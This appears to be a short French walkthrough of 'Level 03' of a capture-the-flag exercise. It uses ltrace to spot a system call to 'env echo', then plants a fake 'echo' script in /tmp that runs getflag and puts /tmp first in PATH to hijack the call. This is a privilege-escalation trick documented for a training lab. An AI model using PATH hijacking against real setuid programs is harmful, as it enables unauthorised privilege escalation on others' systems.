 ## Level 03:

On arrive directement sur un folder avec un executable ```level03```

avec ```ltrace``` on peut voir cette ligne : 
```system("/usr/bin/env echo Exploit me"Exploit me```
qui nous indique un appel systeme d'echo.
On va donc faire un echo exploit en creant un fichier ```echo``` dans lequel on va mettre le path de getflag.  
Avec ```export``` on va rajouter le chemin d'```echo``` a PATH (au debut) et relancer le binaire. 

Dans ```/tmp```  
 ```vim echo```
```echo
/bin/getflag
```
```chmod + x```
  ```export PATH=/tmp:$PATH```

puis ```./level03 ```     
:)
